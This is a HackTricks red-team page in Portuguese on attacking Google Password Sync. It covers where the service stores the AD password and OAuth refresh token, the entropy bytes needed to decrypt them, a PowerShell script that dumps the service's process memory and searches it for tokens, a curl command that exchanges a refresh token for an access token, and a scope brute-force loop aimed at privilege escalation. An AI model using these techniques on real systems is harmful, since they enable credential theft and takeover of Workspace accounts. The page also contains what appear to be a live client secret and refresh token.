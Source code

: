 # GPS - Google Password Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

Este é o binário e serviço que o Google oferece para **manter sincronizadas as senhas dos usuários entre o AD** e o Workspace. Sempre que um usuário altera sua senha no AD, ela é definida no Google.

Ele é instalado em `C:\Program Files\Google\Password Sync`, onde você pode encontrar o binário `PasswordSync.exe` para configurá-lo e `password_sync_service.exe` (o serviço que continuará em execução).

### GPS - Configuration

Para configurar este binário (e serviço), é necessário **dar acesso a um principal Super Admin no Workspace**:

* Login via **OAuth** com o Google e então ele **armazenará um token no registro (criptografado)**
* Disponível apenas em Controladores de Domínio com GUI
* Fornecendo algumas **credenciais de Conta de Serviço do GCP** (arquivo json) com permissões para **gerenciar os usuários do Workspace**
* Ideia muito ruim, pois essas credenciais nunca expiram e podem ser mal utilizadas
* Ideia muito ruim dar acesso a uma SA sobre o workspace, pois a SA pode ser comprometida no GCP e será possível pivotar para o Workspace
* O Google exige isso para domínio controlado sem GUI
* Essas credenciais também são armazenadas no registro

Quanto ao AD, é possível indicar para usar o **contexto de aplicações atual, anônimo ou algumas credenciais específicas**. Se a opção de credenciais for selecionada, o **nome de usuário** é armazenado dentro de um arquivo no **disco** e a **senha** é **criptografada** e armazenada no **registro**.

### GPS - Dumping password and token from disk

{% hint style="success" %}
Note que [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) é capaz de detectar **GPS**, obter informações sobre a configuração e **até mesmo descriptografar a senha e o token**.
{% endhint %}

No arquivo **`C:\ProgramData\Google\Google Apps Password Sync\config.xml`** é possível encontrar parte da configuração, como o **`baseDN`** do AD configurado e o **`username`** cujas credenciais estão sendo usadas.

No registro **`HKLM\Software\Google\Google Apps Password Sync`** é possível encontrar o **token de atualização criptografado** e a **senha criptografada** para o usuário do AD (se houver). Além disso, se em vez de um token, algumas **credenciais de SA** forem usadas, também é possível encontrá-las criptografadas nesse endereço do registro. Os **valores** dentro deste registro são apenas **acessíveis** por **Administradores**.

A **senha criptografada** (se houver) está dentro da chave **`ADPassword`** e é criptografada usando a API **`CryptProtectData`**. Para descriptografá-la, você precisa ser o mesmo usuário que configurou a sincronização de senhas e usar esta **entropia** ao usar a **`CryptUnprotectData`**: `byte[] entropyBytes = new byte[] { 0xda, 0xfc, 0xb2, 0x8d, 0xa0, 0xd5, 0xa8, 0x7c, 0x88, 0x8b, 0x29, 0x51, 0x34, 0xcb, 0xae, 0xe9 };`

O token criptografado (se houver) está dentro da chave **`AuthToken`** e é criptografado usando a API **`CryptProtectData`**. Para descriptografá-lo, você precisa ser o mesmo usuário que configurou a sincronização de senhas e usar esta **entropia** ao usar a **`CryptUnprotectData`**: `byte[] entropyBytes = new byte[] { 0x00, 0x14, 0x0b, 0x7e, 0x8b, 0x18, 0x8f, 0x7e, 0xc5, 0xf2, 0x2d, 0x6e, 0xdb, 0x95, 0xb8, 0x5b };`\
Além disso, também é codificado usando base32hex com o dicionário **`0123456789abcdefghijklmnopqrstv`**.

Os valores de entropia foram encontrados usando a ferramenta. Ela foi configurada para monitorar as chamadas para **`CryptUnprotectData`** e **`CryptProtectData`** e então a ferramenta foi usada para iniciar e monitorar `PasswordSync.exe`, que descriptografará a senha configurada e o token de autenticação no início, e a ferramenta **mostrará os valores da entropia usada** em ambos os casos:

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-5782633230648853886-y.jpg" alt=""><figcaption></figcaption></figure>

Note que também é possível ver os valores **descriptografados** na entrada ou saída das chamadas para essas APIs também (caso em algum momento o Winpeas pare de funcionar).

Caso a sincronização de senhas tenha sido **configurada com credenciais de SA**, também será armazenada em chaves dentro do registro **`HKLM\Software\Google\Google Apps Password Sync`**.

### GPS - Dumping tokens from memory

Assim como com o GCPW, é possível despejar a memória do processo dos processos `PasswordSync.exe` e `password_sync_service.exe` e você poderá encontrar tokens de atualização e acesso (se já tiverem sido gerados).\
Acho que você também poderia encontrar as credenciais configuradas do AD.

<details>

<summary>Dump <code>PasswordSync.exe</code> and the <code>password_sync_service.exe</code> processes and search tokens</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$processNames = @("PasswordSync", "password_sync_service")
$chromeProcesses = Get-Process | Where-Object { $processNames -contains $_.Name } | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}
```
</details>

### GPS - Gerando tokens de acesso a partir de tokens de atualização

Usando o token de atualização, é possível gerar tokens de acesso utilizando-o e o ID do cliente e o segredo do cliente especificados no seguinte comando:
```bash
curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
https://www.googleapis.com/oauth2/v4/token
```
### GPS - Escopos

{% hint style="info" %}
Observe que, mesmo tendo um token de atualização, não é possível solicitar nenhum escopo para o token de acesso, pois você só pode solicitar os **escopos suportados pela aplicação onde você está gerando o token de acesso**.

Além disso, o token de atualização não é válido em todas as aplicações.
{% endhint %}

Por padrão, o GPS não terá acesso como o usuário a todos os possíveis escopos OAuth, então, usando o seguinte script, podemos encontrar os escopos que podem ser usados com o `refresh_token` para gerar um `access_token`:

<details>

<summary>Script Bash para força bruta de escopos</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

E este é o resultado que obtive no momento da escrita:
```
https://www.googleapis.com/auth/admin.directory.user
```
Qual é o mesmo que você obtém se não indicar nenhum escopo.

{% hint style="danger" %}
Com este escopo você poderia **modificar a senha de um usuário existente para escalar privilégios**.
{% endhint %}

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
